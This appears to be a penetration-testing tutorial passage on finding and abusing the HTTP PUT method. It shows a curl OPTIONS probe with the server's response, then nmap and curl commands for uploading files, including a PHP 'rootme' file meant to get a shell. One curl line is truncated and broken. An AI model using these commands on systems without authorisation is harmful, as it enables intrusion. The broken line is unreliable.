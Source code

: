 ### PUT Method

Sometimes, it is also a good idea to check the various HTTP verbs that are available such as GET, PUT, DELETE, etc. This can be done by making an **OPTIONS** request.

Curl can be used to check the available options (supported http verbs):

```none
curl -X OPTIONS -v http://192.168.126.129/test/
Trying 192.168.126.129…
Connected to 192.168.126.129 (192.168.126.129) port 80 (#0)
> OPTIONS /test/ HTTP/1.1
> Host: 192.168.126.129
> User-Agent: curl/7.47.0
> Accept: /
>
< HTTP/1.1 200 OK
< DAV: 1,2
< MS-Author-Via: DAV
< Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
< Allow: OPTIONS, GET, HEAD, POST
< Content-Length: 0
< Date: Fri, 29 Apr 2016 09:41:19 GMT
< Server: lighttpd/1.4.28
<
* Connection #0 to host 192.168.126.129 left intact
```

The PUT method allows you to upload a file which can help us to get a shell on the machine. There are multiple methods available for uploading a file with the PUT method mentioned on [Detecting and exploiting the HTTP Put Method](http://www.smeegesec.com/2014/10/detecting-and-exploiting-http-put-method.html)

A few are:

- Nmap:

    ```none
    nmap -p 80 --script http-put --script-args http-put.url='/uploads/rootme.php',http-put.file='/tmp/rootme.php'
    ```

- curl:

    ```none
    curl --upload-file test.txt -v --url http://192.168.126.129/test/test.txt
    ```

  or

    ```none
    curl -X PUT -d '
    curl -i -X PUT -H "Content-Type: application/xml; charset=utf-8" -d @"/tmp/some-file.xml" http://IPAddress/newpage
    curl -X PUT -d "text or data to put" http://IPAddress/destination_page
    curl -i -H "Accept: application/json" -X PUT -d "text or data to put" http://IPAddress/new_page
    ```
